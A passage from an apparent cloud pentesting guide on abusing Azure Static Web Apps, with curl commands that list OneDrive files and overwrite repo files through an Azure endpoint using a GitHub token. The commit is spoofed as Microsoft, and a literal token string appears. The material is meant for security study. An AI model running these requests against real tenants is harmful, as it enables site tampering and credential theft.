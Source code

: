 ```bash
     -H "Authorization: Bearer <token>" \
     -H "Content-Type: application/json" \
     --data '{"path": ""}'

# OneDrive – List Files in Root Folder
curl -H "Authorization: Bearer <token>" \
     -H "Accept: application/json" \
     https://graph.microsoft.com/v1.0/me/drive/root/children
```

### Overwrite file - Overwrite routes, HTML, JS...

It's possible to **overwrite a file inside the Github repo** containing the app through Azure having the **Github token** sending a request such as the following which will indicate the path of the file to overwrite, the content of the file and the commit message.

This can be abused by attackers to basically **change the content of the web app** to serve malicious content (steal credentials, mnemonic keys...) or just to **re-route certain paths** to their own servers by overwriting the `staticwebapp.config.json` file.

> [!WARNING]
> Note that if an attacker manages to compromise the Github repo in any way, they can also overwrite the file directly from Github.

```bash
curl -X PUT "https://functions.azure.com/api/github/updateGitHubContent" \
-H "Content-Type: application/json" \
-d '{
    "commit": {
        "message": "Update static web app route configuration",
        "branchName": "main",
        "committer": {
            "name": "Azure App Service",
            "email": "donotreply@microsoft.com"
        },
        "contentBase64Encoded": "ewogICJuYXZpZ2F0aW9uRmFsbGJhY2siOiB7CiAgICAicmV3cml0ZSI6ICIvaW5kZXguaHRtbCIKICB9LAogICJyb3V0ZXMiOiBbCiAgICB7CiAgICAgICJyb3V0ZSI6ICIvcHJvZmlsZSIsCiAgICAgICJtZXRob2RzIjogWwogICAgICAgICJnZXQiLAogICAgICAgICJoZWFkIiwKICAgICAgICAicG9zdCIKICAgICAgXSwKICAgICAgInJld3JpdGUiOiAiL3AxIiwKICAgICAgInJlZGlyZWN0IjogIi9sYWxhbGEyIiwKICAgICAgInN0YXR1c0NvZGUiOiAzMDEsCiAgICAgICJhbGxvd2VkUm9sZXMiOiBbCiAgICAgICAgImFub255bW91cyIKICAgICAgXQogICAgfQogIF0KfQ==",
        "filePath": "staticwebapp.config.json",
        "message": "Update static web app route configuration",
        "repoName": "carlospolop/my-first-static-web-app",
        "sha": "4b6165d0ad993a5c705e8e9bb23b778dff2f9ca4"
    },
    "gitHubToken": "gho_1OSsm834ai863yKkdwHGj31927PCFk44BAXL"
}'
```

### Microsoft.Web/staticSites/config/write

With this permission, it's possible to **modify the password** protecting a static web app or even unprotect every environment by sending a request such as the following:
